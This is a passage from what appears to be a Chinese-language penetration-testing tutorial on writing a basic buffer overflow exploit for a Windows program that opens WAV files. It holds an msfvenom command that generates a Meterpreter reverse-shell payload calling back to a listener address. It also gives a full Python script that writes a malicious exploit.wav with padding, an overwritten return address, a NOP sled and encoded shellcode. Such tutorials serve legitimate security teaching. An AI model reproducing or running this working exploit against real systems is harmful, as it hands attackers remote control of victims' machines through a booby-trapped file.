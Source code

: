 ![Writing a basic buffer overflow exploit](graphics/B04315_08_34.jpg)

然后，我们生成新的 shell 代码 a`windows/meterpreter/reverse_nonx_tcp`并用它替换计算器代码。我们选择这种有效负载类型是因为它是一个非常小的计量器，这意味着因为我们知道我们的内存占用可能是有限的，所以我们有更好的机会成功利用此漏洞。

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -f c -b '\x00\xff\x01\x09\x0a\x0d'
```

### 提示

这些示例中还列出了其他错误字符。出于习惯，我通常在生成有效负载时保留这些。请记住，错误字符越多，编码器就越需要添加执行功能等效操作的操作。这意味着编码越多，负载通常越大。

命令的输出如下，其大小仅为 204 字节：

![Writing a basic buffer overflow exploit](graphics/B04315_08_35.jpg)

当放入攻击代码时，我们会得到以下 Python 攻击：

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

执行时，我们得到以下结果，显示漏洞生成外壳：

![Writing a basic buffer overflow exploit](graphics/B04315_08_36.jpg)
